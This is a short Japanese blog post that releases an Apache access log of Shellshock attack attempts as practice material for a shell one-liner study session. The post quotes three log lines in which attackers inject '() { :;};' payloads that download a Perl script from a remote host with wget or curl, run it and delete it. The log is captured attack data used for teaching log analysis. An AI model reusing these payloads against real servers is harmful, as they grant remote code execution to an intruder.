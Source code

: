 # 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="http://blog.ueda.asia/?p=5620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a><br />
<br />
今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。<br />
<br />
<!--more--><br />
<br />
<a href="access.log_.shellshock.gz">http://blog.ueda.asia/wp-content/uploads/2015/04/access.log_.shellshock.gz</a><br />
<br />
これが中身です。どんな問題が出るか予想しながらいじってみていただければと。<br />
<br />
[bash]<br />
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/php HTTP/1.1&quot; 302 219 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\&quot;);'&quot;<br />
[/bash]<br />
<br />
<br />
ヤバイ・・・<br />
<br />
<br />
寝る。
